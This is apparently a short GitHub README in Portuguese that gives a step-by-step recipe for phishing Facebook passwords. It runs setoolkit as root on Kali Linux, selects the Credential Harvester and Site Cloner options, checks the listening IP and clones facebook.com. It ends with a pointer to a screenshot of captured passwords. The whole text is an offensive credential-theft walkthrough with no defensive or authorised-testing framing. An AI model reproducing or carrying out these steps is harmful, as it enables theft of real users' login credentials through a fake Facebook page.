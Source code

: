 # Phishing para captura de senhas do Facebook  

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- No kali Linux entra no terminal com ``` sudo su ```
- Executar setookit: ``` setoolkit ```
- Escolher primeira opção: ``` 1)Social-Engineering Attacks ```
- Agora segunda opção: ``` 2)Web Site Attack Vectors ```
- Selecionar opção: ``` 3)Credential Harvester Attack Method ```
- Agora clonar o site opção: ``` 2)Site Cloner ```
- Verificar o ip da maquina para escutar: ``` ifconfig ```
- Agora clone o site no set:webattack> Enter the url to clone: http://www.facebook.com

### Resutados

![Alt text](./image senha.png "Optional title")